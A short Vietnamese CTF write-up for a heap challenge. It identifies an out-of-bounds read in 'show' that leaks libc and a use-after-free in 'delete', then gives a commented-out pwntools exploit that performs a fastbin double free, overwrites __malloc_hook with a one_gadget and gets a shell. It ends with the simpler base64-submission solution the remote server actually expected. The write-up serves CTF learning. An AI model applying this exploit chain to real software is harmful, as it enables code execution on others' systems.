




# Bug :

- Có 2 bug lớn :
  + Hàm `show` dính OOB -> leak libc
  
  + Hàm `delete` dính UAF -> Overwrite `malloc hook` + `onegadget`
  


- Nếu chall này theo hướng exploit thì script sẽ như sau :
```
# show(-368)
# p.recvuntil(b'Data: ')
# libc_leak = u64(p.recv(6) + b'\0\0')
# log.info("libc leak :" + hex(libc_leak))
# libc.address = libc_leak - 0x3c38e0
# log.info("libc base :" + hex(libc.address))

# add(0x60, b'0')
# add(0x60, b'1')
# dell(0)
# dell(1)
# dell(0)
# add(0x60, p64(libc.sym.__malloc_hook - 27 - 8))
# add(0x60, b'0')
# add(0x60, b'1')
# add(0x60, b'a' * 11 + p64(libc.address + 0xf0567) + p64(libc.sym.realloc + 6)) #0,2,4,6,11,12
# slna(b'> ', 1)
# slna(b'Size: ', 96)
```

- Sau khi local get shell thành công remote lên sever ta thấy 

  


- Sau khi thấy tình trạng trên, quay lại đọc mô tả, bài này khá bịp khi mô tả yêu cầu chỉ cần mã hóa base64 toàn bộ binary là xong để vượt qua các check rồi sẽ gửi lại flag nên chỉ cần 4 dòng sau :
```
p.recvuntil(b'Give me patch binary (base64): ')
with open(exe.path, 'rb') as f:
    patch_b64 = base64.b64encode(f.read())
p.sendline(patch_b64)
```
----------------------------------
  


